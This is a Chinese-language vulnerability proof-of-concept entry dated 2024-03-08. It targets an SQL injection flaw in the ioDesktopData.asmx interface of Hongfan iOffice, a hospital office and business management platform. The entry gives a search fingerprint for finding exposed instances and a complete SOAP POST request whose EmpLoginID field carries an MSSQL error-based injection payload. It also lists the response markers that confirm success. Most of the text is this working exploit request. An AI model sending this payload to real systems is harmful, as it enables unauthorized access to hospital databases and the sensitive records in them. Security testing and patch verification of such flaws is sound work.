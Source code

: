 ﻿# 红帆iOffice ioDesktopData.asmx接口存在SQL注入漏洞

> 更新时间：2024-03-08

> 漏洞编号：

> 漏洞说明：红帆iOffice.net从最早满足医院行政办公需求（传统OA），到目前融合了卫生主管部门的管理规范和众多行业特色应用，是目前唯一定位于解决医院综合业务管理的软件，是最符合医院行业特点的医院综合业务管理平台，是成功案例最多的医院综合业务管理软件。红帆iOffice ioDesktopData.asmx接口存在SQL注入漏洞。

> 漏洞特征：app="红帆-ioffice" || app="红帆-HFOffice"

> 验证脚本：HTTP

```
POST /iOffice/prg/set/wss/ioDesktopData.asmx HTTP/1.1
Content-Type: text/xml;charset=UTF-8
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Connection: close

<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:tem="http://tempuri.org/">
<soap:Header/>
<soap:Body>
<tem:GetDepSchedule>
<!--type: string-->
<tem:EmpLoginID>1'+(SELECT CHAR(103)+CHAR(105)+CHAR(75)+CHAR(83) WHERE 6621=6621 AND 7795 IN (SELECT (CHAR(113)+CHAR(118)+CHAR(106)+CHAR(122)+CHAR(113)+(select sys.fn_varbintohexstr(hashbytes('md5','123')))+CHAR(113)+CHAR(118)+CHAR(113)+CHAR(120)+CHAR(113))))+'</tem:EmpLoginID>
</tem:GetDepSchedule>
</soap:Body>
</soap:Envelope>
```

> 响应代码特征：200

> 响应内容特征：ac59075b964b0715

> 上传文件定位：

> 验证文件来源：红帆iOffice ioDesktopData.asmx接口存在SQL注入漏洞.poc

